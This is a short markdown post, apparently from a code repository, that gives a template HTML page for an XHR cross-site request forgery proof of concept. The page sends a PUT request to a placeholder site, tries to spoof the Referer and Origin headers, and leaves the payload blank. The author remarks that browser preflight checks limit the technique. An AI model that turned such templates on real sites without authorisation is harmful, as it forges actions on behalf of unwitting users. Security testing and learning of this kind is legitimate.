 # XHR CSRF PoC

This is just some sample code for when creating an XHR CSRF PoC.    
It is used for my self learning purposes and work sometimes.


<details>
  <summary>csrf.html</summary>
  
```

<script>
	function getMe()

	{
		var http;
		http = new XMLHttpRequest();
		var url = "http://example.com";
		http.open("PUT", url, false);
		//http.setRequestHeader('Access-Control-Request-Meethod','POST');
		//http.setRequestHeader('Access-Control-Request-Meethod','content-type');
		http.setRequestHeader('Content-Type','application/json');
		http.setRequestHeader('Referer',url);
		http.setRequestHeader('Content-Length','33');
		http.setRequestHeader('Origin','http://example.com');
		http.onreadystatechange = function()
		{
			if(http.readyState == 2)
				{var response = http.responseText;
					document.getElementById('result').innerHTML = response;
				}
		}
http.send(`
	Your payload here
  `);
	}

	getMe();
</script>

<html>
<div id='result'></div>
</html>
```

</details>

Sadly modern browsers nowadays will send an OPTIONS request first to check for XHR, and it is not possible to modify the Origin in the request - it will be set to null.

Ref: https://stackoverflow.com/questions/21783079/ajax-in-chrome-sending-options-instead-of-get-post-put-delete
